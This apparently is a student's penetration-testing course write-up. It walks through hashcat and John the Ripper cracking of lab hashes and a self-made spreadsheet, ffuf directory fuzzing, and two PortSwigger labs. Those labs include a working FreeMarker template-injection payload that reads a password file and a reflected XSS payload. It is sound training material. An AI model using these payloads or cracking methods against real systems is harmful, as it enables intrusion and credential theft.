

# h5
*Hacking, Cracking, Fuzzing...*   

Host:  
`I used Debian 11, Lenovo Thinkpad E15`
```bash
~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 11 (bullseye)
Release:	11
Codename:	bullseye
```

All these assignments were done with Kali Linux in VirtualBox:     
```bash
──(kali🥦kali)-[~]
└─$ grep VERSION /etc/os-release
VERSION="2023.1"
VERSION_ID="2023.1"
VERSION_CODENAME="kali-rolling"
                                                                                                                    
┌──(kali🥦kali)-[~]
└─$ uname -a
Linux kali 6.1.0-kali7-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.20-1kali1 (2023-03-22) x86_64 GNU/Linux
```
---
**[Tero Karvinen himself, in the course lecture](https://terokarvinen.com/2023/tunkeutumistestaus-2023-kevat/) has been used   as a source for these assignments**   

### x) Lue ja tiivistä (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva. Cheatsheetistä voit poimia muutaman itselle relevantin kohdan.)

**Karvinen 2022: [Cracking Passwords with Hashcat](https://terokarvinen.com/2022/cracking-passwords-with-hashcat/)**
- In systems, passwords are stored as hashes
- Hashcat is a powerful tool to crack password hashes.
- Hash type needs to be identified, before it can be cracked
	- Hashid can be used to automatically identify the hash type and provide the parameter ( attack mode) needed for Hashcat attack.
- You can try to crack passwords, for example with Hashcat's dictionary mode.
	- Dictionary attack requires a plain text wordlist, that contains all the words, that the hash will be tried to match with.


**Karvinen 2023: [Crack File Password With John](https://terokarvinen.com/2023/crack-file-password-with-john/)**
- John the Ripper is another powerful tool to crack password hashes
- A Jumbo version, which has a wide support for different file formats to extract hashes from, can be obtained from the developer's github for free.
	- Of course, a potential risk of downloading and compiling software outside of the default package manager is mentioned, and should be noted.
- John can be used, for example using two steps, to crack a password protected .zip:
	1.  Extract the hash from the zip
	2. Crack the hash
		- Open .zip with the obtained password.


**Note from both articles above:**
- Always use good passwords. 
	- Dictionary attacks are not powerful against random passwords.
- Use a password manager.
- Only use password hacking skills for good!

**Karvinen 2023: [Find Hidden Web Directories - Fuzz URLs with ffuf](https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/)**
- Ffuf is a web fuzzer tool by InfoSec professional [joohoi](https://github.com/joohoi)
- Ffuf can be used to find hidden directories on web servers. 
	- Can be also used to fuzz:
		- Vhosts, POST requests, query string parameters, or request headers.
- Similar tools are [Dirbuster](https://www.kali.org/tools/dirbuster/) (written in Java) and [Gobuster](https://www.kali.org/tools/gobuster/) (written in Go)

---
###  y) The SUPER ultimate Hakk3r Che33tsheet 0.0.1. Tee tiivistelmä omista ja kavereiden parhaista tunketumistekniikoista. Ole täsmällinen, liitä komennot mukaan. Tämän kohdan vastaus lienee pidempi kuin aiempien x-tehtävien. Viittaa lähteisiin. Tässä alakohdassa ei tarvitse ajaa komentoja tietokoneella.

My cheatsheet is a pretty neat and compact set of useful commands, links and some example usages.   

**Based mostly on my friend's Niko Heiskanen notes:**     
https://github.com/heiskane/heiskane.github.io/blob/master/notes.md     
Which I've modified and added stuff to serve my needs.

Other sources used:   
[Kali Tools](https://www.kali.org/tools/)   
[Tero Karvinen - Himself](https://terokarvinen.com/2023/tunkeutumistestaus-2023-kevat/)
[Terokarvinen.com - Fuzz Urls to Find Hidden Directories](https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/)   
[Joohoi - Ffuf](https://github.com/ffuf/ffuf)   
[Niko Heiskanen Himself](https://heiskanen.rocks/)     
[IppSec Videos](https://www.youtube.com/@ippsec)   
[HackTricks](https://book.hacktricks.xyz)   
[x0xdf](https://0xdf.gitlab.io/)   
[PentestMonkey](pentestmonkey.net/)   

**Link To**   
**[My Ultimate Cheatsheet](personal_cheatsheet.md)**

---
### a) Asenna Hashcat ja testaa sen toiminta murtamalla esimerkkisalasana.

For this i had hashcat already installed:   
```bash
┌──(kali🥦kali)-[~/hashcat_demo]
└─$ sudo apt-get install hashcat                  
[sudo] password for kali: 
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
hashcat is already the newest version (6.2.6+ds1-1+b1).
hashcat set to manually installed.
```

I used the [mask attack](https://hashcat.net/wiki/doku.php?id=mask_attack) to demonstrate a little bit about the importance of password length and complexity and stuff.   
I dont have a valid source, but back in the days i remember some conference or something like that, where it was said:    
*"People usually use passwords 8 characters long, first letter capitalized and ending with 2 numbers"*    
In this assignment, we can believe that its correct.  

So first a random 5 letter password:
```bash
┌──(kali🥦kali)-[~/hashcat_demo]
└─$ pwgen -10A 5 
zaesh
```

Then i added a capitalized first letter and 2 numbers to the end:

```bash
Qzaesh94
```

Looks "good"    

Then to make it superhard hash:
```bash
┌──(kali🥦kali)-[~/hashcat_demo]
└─$ echo -n Qzaesh94|sha512sum                              
ec1537b6bce4be827c437716c4aaec637044c206bfbf816c97de32b3d2904cc72ab1202ffaadf0e591b7fdf50fae1371750a1da6816845a31652eecf7f58ad18  -
```

Analyzing the hash:
```bash
└─$ hashid -m ec1537b6bce4be827c437716c4aaec637044c206bfbf816c97de32b3d2904cc72ab1202ffaadf0e591b7fdf50fae1371750a1da6816845a31652eecf7f58ad18
Analyzing 'ec1537b6bce4be827c437716c4aaec637044c206bfbf816c97de32b3d2904cc72ab1202ffaadf0e591b7fdf50fae1371750a1da6816845a31652eecf7f58ad18'
[+] SHA-512 [Hashcat Mode: 1700]
[+] Whirlpool [Hashcat Mode: 6100]
[+] Salsa10 
[+] Salsa20 
[+] SHA3-512 
[+] Skein-512 
[+] Skein-1024(512) 
```

Mask to use in hashcat:   
```bash
?u?l?l?l?l?l?d?d
```

Execution:   
```bash
┌──(kali🥦kali)-[~/hashcat_demo]
└─$ hashcat -a 3 -m 1700 ec1537b6bce4be827c437716c4aaec637044c206bfbf816c97de32b3d2904cc72ab1202ffaadf0e591b7fdf50fae1371750a1da6816845a31652eecf7f58ad18 ?u?l?l?l?l?l?d?d
```

Explanations:  
```bash
haschat <attack_type> <hashtype> <hash> <mask>
```

As i dont have any high-end gear, plus the cracking is done in a virtual machine, it took quite alot of time, but still did it:
```bash
ec1537b6bce4be827c437716c4aaec637044c206bfbf816c97de32b3d2904cc72ab1202ffaadf0e591b7fdf50fae1371750a1da6816845a31652eecf7f58ad18:Qzaesh94
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1700 (SHA2-512)
Hash.Target......: ec1537b6bce4be827c437716c4aaec637044c206bfbf816c97d...58ad18
Time.Started.....: Wed May 10 15:05:16 2023 (47 mins, 41 secs)
Time.Estimated...: Wed May 10 15:52:57 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: ?u?l?l?l?l?l?d?d [8]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  7822.6 kH/s (8.74ms) @ Accel:128 Loops:128 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 22920425472/30891577600 (74.20%)
Rejected.........: 0/22920425472 (0.00%)
Restore.Point....: 1304064/1757600 (74.20%)
Restore.Sub.#1...: Salt:0 Amplifier:256-384 Iteration:0-128
Candidate.Engine.: Device Generator
Candidates.#1....: Zylors46 -> Vveqzy94
Hardware.Mon.#1..: Util: 96%

Started: Wed May 10 15:04:47 2023
Stopped: Wed May 10 15:52:58 2023

```

**Profit!**

---
### b) Salainen, mutta ei multa. Ratkaise dirfuzt-1 artikkelista Karvinen 2023: [Find Hidden Web Directories - Fuzz URLs with ffuf](https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/)

First i made working dir, downloaded the `dirfuzt-1` binary and ran it:
```bash
┌──(kali🥦kali)-[~]
└─$ mkdir dirfuzt-1 
                                                                                                                   
┌──(kali🥦kali)-[~]
└─$ cd dirfuzt-1 
                                                                                                                   
┌──(kali🥦kali)-[~/dirfuzt-1]
└─$ wget https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/dirfuzt-1  
--2023-05-10 18:25:19--  https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/dirfuzt-1
Resolving terokarvinen.com (terokarvinen.com)... 139.162.131.217
Connecting to terokarvinen.com (terokarvinen.com)|139.162.131.217|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2603332 (2.5M)
Saving to: ‘dirfuzt-1’

dirfuzt-1                    100%[=============================================>]   2.48M  3.07MB/s    in 0.8s    

2023-05-10 18:25:21 (3.07 MB/s) - ‘dirfuzt-1’ saved [2603332/2603332]
                                                                                                                   
┌──(kali🥦kali)-[~/dirfuzt-1]
└─$ chmod 700 dirfuzt-1
                                                                                                                   
┌──(kali🥦kali)-[~/dirfuzt-1]
└─$ ./dirfuzt-1
Learn more at TeroKarvinen.com
http://127.0.0.2:8000
```

I had `ffuf` already installed:
```bash
┌──(kali🥦kali)-[~]
└─$ ffuf -V       
ffuf version: 2.0.0-dev
```

Fuzzing:
```bash
┌──(kali🥦kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://127.0.0.2:8000/FUZZ

```

Gave too many hits, like this:
```bash
[Status: 200, Size: 154, Words: 9, Lines: 10, Duration: 0ms]
```

So i filtered out the bytesize 154:


And now it looked way better!  

First flag:    
   
```bash
FLAG{tero-git-3cc87212bcd411686a3b9e547d47fc51}
```


Second flag:    
     
 ```bash
FLAG{tero-wpadmin-3364c855a2ac87341fc7bcbda955b580}
```


I thought, Tero is so sneaky, that the flag is a hash, so i made a file with the hashes:

```bash
┌──(kali🥦kali)-[~]
└─$ mkdir tero_pwn                            
                                                                                                                    
┌──(kali🥦kali)-[~]
└─$ cd tero_pwn 
                                                                                                                    
┌──(kali🥦kali)-[~/tero_pwn]
└─$ echo 3364c855a2ac87341fc7bcbda955b580 > tero_secrets
                                                                                                                    
┌──(kali🥦kali)-[~/tero_pwn]
└─$ echo 3cc87212bcd411686a3b9e547d47fc51 >> tero_secrets 
                                                                                                                    
┌──(kali🥦kali)-[~/tero_pwn]
└─$ cat tero_secrets 
3364c855a2ac87341fc7bcbda955b580
3cc87212bcd411686a3b9e547d47fc51
                                                                                                                    
┌──(kali🥦kali)-[~/tero_pwn]
└─$ hashid tero_secrets -m                                                             
--File 'tero_secrets'--
Analyzing '3364c855a2ac87341fc7bcbda955b580'
[+] MD2 
[+] MD5 [Hashcat Mode: 0]
[+] MD4 [Hashcat Mode: 900]
[+] Double MD5 [Hashcat Mode: 2600]
[+] LM [Hashcat Mode: 3000]
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 [Hashcat Mode: 8600]
[+] Skype [Hashcat Mode: 23]
[+] Snefru-128 
[+] NTLM [Hashcat Mode: 1000]
[+] Domain Cached Credentials [Hashcat Mode: 1100]
[+] Domain Cached Credentials 2 [Hashcat Mode: 2100]
[+] DNSSEC(NSEC3) [Hashcat Mode: 8300]
[+] RAdmin v2.x [Hashcat Mode: 9900]
Analyzing '3cc87212bcd411686a3b9e547d47fc51'
[+] MD2 
[+] MD5 [Hashcat Mode: 0]
[+] MD4 [Hashcat Mode: 900]
[+] Double MD5 [Hashcat Mode: 2600]
[+] LM [Hashcat Mode: 3000]
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 [Hashcat Mode: 8600]
[+] Skype [Hashcat Mode: 23]
[+] Snefru-128 
[+] NTLM [Hashcat Mode: 1000]
[+] Domain Cached Credentials [Hashcat Mode: 1100]
[+] Domain Cached Credentials 2 [Hashcat Mode: 2100]
[+] DNSSEC(NSEC3) [Hashcat Mode: 8300]
[+] RAdmin v2.x [Hashcat Mode: 9900]
--End of file 'tero_secrets'-- 
```

I went with the MD5 hihihihiiii!   

```bash
┌──(kali🥦kali)-[~/tero_pwn]
└─$ hashcat -a 0 -m 0 tero_secrets /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

# SNIP

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921515
* Keyspace..: 14344386

3cc87212bcd411686a3b9e547d47fc51:raindrop                 
3364c855a2ac87341fc7bcbda955b580:peruna                   
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: tero_secrets
Time.Started.....: Wed May 10 18:55:32 2023 (0 secs)
Time.Estimated...: Wed May 10 18:55:32 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3535.0 kH/s (0.19ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new)
Progress.........: 397312/14344386 (2.77%)
Rejected.........: 0/397312 (0.00%)
Restore.Point....: 395264/14344386 (2.76%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: pollyxx -> ozzie99
Hardware.Mon.#1..: Util: 26%

Started: Wed May 10 18:55:30 2023
Stopped: Wed May 10 18:55:33 2023

```
3 seconds later...     

**BOOOOOOM!!**

---
### c) Asenna John the Ripper ja testaa sen toiminta murtamalla jonkin esimerkkitiedoston salasana.

For this i used a separate "Empty",  Debian 11 Server and [Tero's guide](https://terokarvinen.com/2023/crack-file-password-with-john/).

**Compiling John Jumbo from source:**    

First i installed all the dependencies:
```
sudo apt-get -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev zlib-gst libbz2-1.0 libbz2-dev atool zip wget
```

As i like to keep things neat, i cloned the repo to `~/.local/john`

```bash
git clone --depth=1 https://github.com/openwall/john.git ~/.local/john
```

After cloning i browsed to the directory and created the makefile:   
```
cd ~/.local/john/src/	
./configure
```

After that compiled `john`
```
make -s clean && make -sj4
```

After a while, it was done:
```bash
Make process completed.
sicki@debsrv:~/.local/john/src$
```

```bash
sicki@debsrv:~/.local/john/src$ ./../run/john 
John the Ripper 1.9.0-jumbo-1+bleeding-3553509ce9 2023-05-08 13:39:36 +0200 OMP [linux-gnu 64-bit x86_64 AVX2 AC]
Copyright (c) 1996-2022 by Solar Designer and others
Homepage: https://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]

Use --help to list all available options.
```

There was a thing i wanted to do.   
I wanted to run it from anywhere, without needing to use the absolute path.   

I first tried to add it to PATH:
```bash
export PATH=$PATH:/home/sicki/.local/john/run/
```

```bash
sicki@debsrv:~$ john
Error: Cannot find John home. Invoke the program via full or relative pathname.
For example, /full/path/john or path/john, or set and use a shell alias.
```

Not working, as there is some ["John home" variable, which cannot be set manually.... ](https://www.win.tue.nl/~aeb/linux/john/john.html) 

Some were working though, with the PATH:

```bash
sicki@debsrv:~$ zip2john
Usage: zip2john [options] [zip file(s)]
 -s Scan archive from the beginning, looking for local file headers. This
    is less reliable than going by the central index, but might work better
    with corrupted or split archives.
Options for 'old' PKZIP encrypted files only:
 -a <filename>   This is a 'known' ASCII file. This can be faster, IF all
    files are larger, and you KNOW that at least one of them starts out as
    'pure' ASCII data.
 -o <filename>   Only use this file from the .zip file.
 -c This will create a 'checksum only' hash.  If there are many encrypted
    files in the .zip file, then this may be an option, and there will be
    enough data that false positives will not be seen.  Up to 8 files are
    supported. These hashes do not reveal actual file data.
 -m Use "file magic" as known-plain if applicable. This can be faster but
    not 100% safe in all situations.

sicki@debsrv:~$ office2john
-bash: office2john: command not found
sicki@debsrv:~$ office2john.py
Usage: /home/sicki/.local/john/run/office2john.py <encrypted Office file(s)>
```

As the PATH didnt solve the issue, i made an alias to .bashrc and it worked!   
```bash
sicki@debsrv:~$ tail -n 5 .bashrc 
# John alias
alias john='/home/sicki/.local/john/run/john'

# John PATH 
export PATH=$PATH:/home/sicki/.local/john/run/
sicki@debsrv:~$ source .bashrc
sicki@debsrv:~$ john
John the Ripper 1.9.0-jumbo-1+bleeding-3553509ce9 2023-05-08 13:39:36 +0200 OMP [linux-gnu 64-bit x86_64 AVX2 AC]
Copyright (c) 1996-2022 by Solar Designer and others
Homepage: https://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]

Use --help to list all available options.
```

Now it could be ran anywhere.   

**Cracking a protected file:**    
*I combined this with an optional assignment:*   
 - l) Vapaaehtoinen: Murra jonkin itse tekemäsi tiedoston salasana. Onnistuuko muillakin kuin zip:llä?

I created a password protected spreadsheet in my Host, with Libreoffice Calc.  

For the cracking part, i switched to my Kali, as i wanted a GUI.

I transferred the file:    


Extracted the hash:   
```bash
┌──(kali🥦kali)-[~/john_demo]
└─$ office2john secure.xlsx > secure.hash
                                                                                                                    
┌──(kali🥦kali)-[~/john_demo]
└─$ cat secure.hash 
secure.xlsx:$office$*2007*20*128*16*163bf2c9b91a27173d472e8db4a409f5*262eb6fdc54674aee2dc2565387dcef6*5789b1ca8828e2f510888c6cd3aa491b21c30385
```

Ran the dictionary attack:
```bash
┌──(kali🥦kali)-[~/john_demo]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt secure.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2007 for all loaded hashes
Cost 2 (iteration count) is 50000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supersecret      (secure.xlsx)     
1g 0:00:01:26 DONE (2023-05-10 16:54) 0.01158g/s 3377p/s 3377c/s 3377C/s surfer05..superman31
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                      
```
And done, got the password: `supersecret`


**Opened the spreadsheet with the pass!**

---
### d) Jurpon sivut. Ohhoh, sieppasit juuri Jurpon Windowsista NTLM-tiivisteen 83f1cf89225005caeb4e52c9ea9b00e0 . Liitteenä Jurpon kotisivulta leikattu ja liimattu teksti. Tee oma hyökkäyssanakirja ja murra tiiviste myöhempää liikkumista (lateral movement) varten.

For this, [Tero provided a "website"](https://terokarvinen.com/2023/tunkeutumistestaus-2023-kevat/#h5-final-countdown):    


I started this by making the Jurpo's site.   
First i created the working dir, an index.html and pasted the given text there:
```bash
┌──(kali🥦kali)-[~/jurpo_html]
└─$ cat index.html 
Jurpon kotisivu

MasterLazerMan on suosikkisankarini. Olen aika komea, koska harrastan thriatlonin lisäksi Foo Man Zhu -perinnepainia. Olen kotoisin Kouvolasta, jonka arkkitehtuuri saa sydämmeni sykkiimään vikkelämmin. 

Nähdään IRCissä, sähköpostissa tai DeepThinked-piilopalvelussa TORissa
```

Then i started a webserver to host the site:
```bash
┌──(kali🥦kali)-[~/jurpo_html]
└─$ sudo python -m http.server 8080
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

From another terminal tab, i used [cewl](https://www.kali.org/tools/cewl/) to create the wordlist from everything included in the "site"   

```bash
┌──(kali🥦kali)-[~]
└─$ mkdir jurpo_pwn 
                                                                                                                    
┌──(kali🥦kali)-[~]
└─$ cd jurpo_pwn 
                                                                                                                    
┌──(kali🥦kali)-[~/jurpo_pwn]
└─$ cewl -w wordlist localhost:8080 
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
                                                                                                                    
┌──(kali🥦kali)-[~/jurpo_pwn]
└─$ cat wordlist                   
Olen
Jurpon
kotisivu
MasterLazerMan
suosikkisankarini
aika
komea
koska
harrastan
thriatlonin
lisäksi
Foo
Man
Zhu
perinnepainia
kotoisin
Kouvolasta
jonka
arkkitehtuuri
saa
sydämmeni
sykkiimään
vikkelämmin
Nähdään
IRCissä
sähköpostissa
tai
DeepThinked
piilopalvelussa
TORissa
```

I checked the attack mode first:
```bash
┌──(kali🥦kali)-[~/jurpo_pwn]
└─$ hashid 83f1cf89225005caeb4e52c9ea9b00e0 -m
Analyzing '83f1cf89225005caeb4e52c9ea9b00e0'
[+] MD2 
[+] MD5 [Hashcat Mode: 0]
[+] MD4 [Hashcat Mode: 900]
[+] Double MD5 [Hashcat Mode: 2600]
[+] LM [Hashcat Mode: 3000]
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 [Hashcat Mode: 8600]
[+] Skype [Hashcat Mode: 23]
[+] Snefru-128 
[+] NTLM [Hashcat Mode: 1000]
[+] Domain Cached Credentials [Hashcat Mode: 1100]
[+] Domain Cached Credentials 2 [Hashcat Mode: 2100]
[+] DNSSEC(NSEC3) [Hashcat Mode: 8300]
[+] RAdmin v2.x [Hashcat Mode: 9900]
```

So 1000 it is as the NTLM was given already as a tip.    

I started the dictionary attack with hashcat:
```bash
┌──(kali🥦kali)-[~/jurpo_pwn]
└─$ hashcat -a 0 -m 1000 83f1cf89225005caeb4e52c9ea9b00e0 wordlist    
```

And "0" seconds later:

```bash
83f1cf89225005caeb4e52c9ea9b00e0:MasterLazerMan           
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 83f1cf89225005caeb4e52c9ea9b00e0
Time.Started.....: Wed May 10 14:38:11 2023 (0 secs)
Time.Estimated...: Wed May 10 14:38:11 2023 (0 secs)

```

So the password is: **MasterLazerman**

---
### e) Valitse 2: Ratkaise kaksi itse valitsemaasi tehtävää [PortSwigger labs](https://portswigger.net/web-security/all-labs) -sivulta. Tietysti sellaisia, jotka eivät ole olleet vielä läksynä.

**1\. Lab: Server-side template injection in a sandboxed environment**

   
*I chose this, as ive done some similar stuff to Flask, before.*


As the credentials were provided, i logged in to the account and opened the site:


As it was a template injection, i opened the details of an item, and from there checked "Edit template"    
From the picture, i found that there is a "product" template:   


I used this as my cheatsheet:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

And this method:   
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker---read-file

My payload:   
```bash
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```


**Convert the returned bytes to ASCII:**

*While searching a solution for conversion, the lab resetted so i had to do it again.*   
*New decimals:*
```bash
107 111 100 48 103 117 55 97 50 117 115 107 101 104 107 119 110 114 101 106
```

I made a simple script, based on this source:   
https://www.baeldung.com/linux/shell-decimal-as-ascii

calculate -script:   
```bash
#!/bin/bash
for a in 107 111 100 48 103 117 55 97 50 117 115 107 101 104 107 119 110 114 101 106
do
  echo $a | awk '{ printf "%c", $1, $1 }';
done
```

Created the script, gave permission and ran it:   


**Submitted the password, and done:**


---
**2\. [Lab: Reflected XSS with event handlers and `href` attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)**


*I chose this, just for fun and learn*

After opening the lab, i went straight away to test the search form:   


From:   
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

I tested some of the payload in Zap Requester.   

I edited the final version of the payload to match the needs:   
```bash
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

And tested it:   


It seemed to work, so i pasted it to the search form in the lab site, and it created the `Click me` link.   

Clicked the created link:   


**And done**

---
### k) Vapaaehtoinen: käännä hashcat lähdekoodista. Auttaisikohan se hashcat:n AMD Ryzen -ongelmiin? Jos sinulla on AMD Ryzenin juuri se ongelmallinen malli, voit myös etsiä vaihtoehdon Hashcatille.

This i skipped as no need to compile it.      
My `AMD Ryzen 5 5500U` working fine.   

---
### m) Vapaaehtoinen, vaikea: Lataa jokin kone Vulnhubista ja murtaudu siihen.

This i skipped as i prefer [HackTheBox](https://app.hackthebox.com/home) at the moment.   

